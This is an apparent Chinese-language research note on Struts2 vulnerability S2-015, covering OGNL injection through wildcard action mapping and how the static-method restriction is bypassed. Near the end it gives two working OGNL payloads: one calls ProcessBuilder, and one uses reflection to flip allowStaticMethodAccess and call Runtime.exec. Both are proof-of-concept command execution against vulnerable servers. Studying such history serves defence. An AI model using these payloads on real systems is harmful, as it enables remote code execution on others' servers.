

# S2-015分析

后面慢慢觉得好多地方没意思，官方都不设防御，好多都能通杀，我本人不太关注如何去找某些标签，到达最终过程如何，对我而言没意义，现在更关注struts当中关于ognl的攻防

## 分析

在 Struts2 中可以使用通配符 `*` 来匹配 action，并使用 `{1}` 来获取 `*` 的值

```xml
<package name="S2-015" extends="struts-default">
	<action name="*" class="com.demo.action.PageAction">
		<result>/{1}.jsp</result>
	</action>
</package>
```

为了研究一些攻防历史，我直接用了2.3.14.2版本,这里确实可以看到解析了



我们也都知道SecurityMemberAccess当中allowStaticMethodAccess属性限制了静态方法的执行，在这个版本当中allowStaticMethodAccess用了final修饰，并且setAllowStaticMethodAccess也没了，所以没法显式调用进行修改

毕竟静态方法调用受限制

```java
   public boolean isAccessible(Map context, Object target, Member member, String propertyName) {
        boolean allow = true;
        int modifiers = member.getModifiers();
        if (Modifier.isStatic(modifiers) && member instanceof Method && !this.getAllowStaticMethodAccess()) {
xxxx
```

那怎么办，一方面我们可以使用非静态方法调用 

```java
${new java.lang.ProcessBuilder(new java.lang.String[]{'open', '-a','Calculator'}).start()}.action
```

另一方面就是反射

```
${#context['xwork.MethodAccessor.denyMethodExecution']=false,#f=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#f.setAccessible(true),#f.set(#_memberAccess,true),@java.lang.Runtime@getRuntime().exec('open -a Calculator.app')}.action
```

这两个都是可以的
